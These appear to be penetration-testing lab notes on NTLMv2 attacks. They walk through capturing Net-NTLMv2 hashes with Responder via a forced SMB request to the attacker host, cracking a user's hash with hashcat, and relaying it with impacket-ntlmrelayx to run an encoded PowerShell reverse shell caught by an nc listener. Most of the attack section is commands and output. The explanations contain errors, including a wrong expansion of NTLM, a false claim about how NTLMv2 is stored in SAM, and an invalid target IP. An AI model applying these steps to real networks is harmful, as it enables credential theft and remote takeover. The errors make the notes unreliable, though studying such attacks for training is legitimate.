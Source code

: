 # NTLMv2

New Technology Network Manager v2 is, you guessed it, the updated (and more widely used) version of NTLM. It is stored as **HMAC-MD5** hash in SAM.

NTLMv2's challenge is a timestamp rather than a randomly generated number (NTLM), the timestamp is hashed with the users password and is sent as the response.

## Cracking Net-NTLMv2

### Responder

Responder includes a built-in SMB server that handles the authentication process for us and prints all captured Net-NTLMv2 hashes.

{% embed url="https://www.kali.org/tools/responder/" %}

### Start Responder

<pre class="language-powershell"><code class="lang-powershell">kali@kali:~$ ip a
...
3: tap0: &#x3C;BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 1000
    link/ether 42:11:48:1b:55:18 brd ff:ff:ff:ff:ff:ff
    inet <a data-footnote-ref href="#user-content-fn-1">192.168.119.2</a>/24 scope global tap0
       valid_lft forever preferred_lft forever
    inet6 fe80::4011:48ff:fe1b:5518/64 scope link 
       valid_lft forever preferred_lft forever

kali@kali:~$ sudo responder -I tap0 
<strong>                                         __
</strong>  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR &#x26; MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C
...
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
...
[+] Listening for events... 
</code></pre>

### Request Access to Non-Existent Share

We want to request access to a share that we don't have access to in order to query the authentication protocol. _<mark style="color:red;">**Note**</mark>_: **The IP we're querying is the IP of our Kali machine!**&#x20;

```powershell
C:\Windows\system32>dir \\192.168.119.2\test
dir \\192.168.119.2\test
Access is denied.
```

### Capturing NTLMv2 Hash

```
...
[+] Listening for events... 
[SMB] NTLMv2-SSP Client   : ::ffff:192.168.50.211
[SMB] NTLMv2-SSP Username : FILES01\paul
[SMB] NTLMv2-SSP Hash     : paul::FILES01:1f9d4c51f6e74653:795F138EC69C274D0FD53BB32908A72B:
010100000000000000B050CD1777D801B7585DF5719A
CFBA0000000002000800360057004D00520001001E00570049004E002D00340
044004E004800550058004300340054004900430004003400570049004E002D
00340044004E00480055005800430034005400490043002E00360057004D005
2002E004C004F00430041004C0003001400360057004D0052002E004C004F00
430041004C0005001400360057004D0052002E004C004F00430041004C00070
0080000B050CD1777D801060004000200000008003000300000000000000...
```

### Cracking with Hashcat

We'll save the output of reponder and use Hashcat with our wordlist to crack the NTLMv2 hash.

```shell-session
kali@kali:~$ hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.5) starting
...

PAUL::FILES01:1f9d4c51f6e...00000000000000:123Password123
...
```



## NTLM Relay Attack

Sometimes we obtain a Net-NTLMv2 hash but cant crack it. **If the hash we obtained is from a local administrator, we can use it to authenticate over SMB** like we do with psexec or wmiexec.

### NTLM_relayx - Impacket_

_We can use NTLMrelayx from impacket to relay the hash over SMB._

```
kali@kali:~$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..." 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

**--no-http-server** disables the use of HTTP since we'll be using SMB manually.

**192.168.50.512** is the target. (The box we're trying to get access to)\
**powershell -enc JABjAGwAaQBl..** is the command to execute once authenticated. (Reverse shell)

### Start Listener

We will start a listener on our Attack host to catch the incoming response shell.

```
kali@kali$ nc -nvlp 8080
```

### Request Access to Non-Existent Share

Like we do with Responder, we will query our Attack host for a share to catch the Hash.

```
C:\Windows\system32>dir \\192.168.119.2\test
Access is denied.
```

#### Check Back on the NC Listener and you should have a shell! (Assuming your powershell command works)

_<mark style="color:red;">**NOTE:**</mark>_ Here are some resources for building a powershell command to be executed once the Net-NTLMv2 hash is relayed. (By Impacket)

AGAIN FOR RELAYING TO WORK WE MUST HAVE LOCAL ADMIN!&#x20;

{% embed url="https://www.revshells.com/" %}

[^1]: 
